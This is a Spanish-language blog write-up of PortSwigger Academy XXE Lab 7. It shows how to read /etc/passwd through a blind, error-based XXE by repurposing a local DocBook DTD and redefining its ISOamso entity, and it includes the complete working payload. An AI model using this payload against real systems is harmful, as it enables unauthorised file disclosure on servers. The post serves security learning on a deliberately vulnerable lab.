





+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 7"
date = "2022-01-26"
description = "Lab: Exploiting XXE to retrieve data by repurposing a local DTD"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador. Pero esta vez exfiltrando datos a travez de un DTD interno el cual vamos a utilizar para generar un error y exfiltrar los datos del archivo `/etc/passwd/`

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.


Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```



Ahora necesitamos realizar una referencia hacia un DTD interno el cual utilizaremos mas adelante

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```



Pero al referenciar a uno no valido genera el siguiente error:




## Explotacion

Sabiendo esto lo que haremos es realizar una referencia a la DTD como base y una entidad en su casa que es la que contiene ISOamso la cual utilizaremos. El proceso que se sigue es definir la entidad local referenciando a la DTD local que utizamos y encontramos. Y redefinimos la entidad para utilizar la entidad dentro de la DTD que es ISOamso, referenciando hacia el archivo que queremos leer que es `/etc/passwd` cuando se genere un error, error que produciremos mas adelante tratando de llamar un archivo que no existe. Y ver que nos devuelve automaticamente lo que queremos.

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```



Y con esto hemos resuelto el lab. 



[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)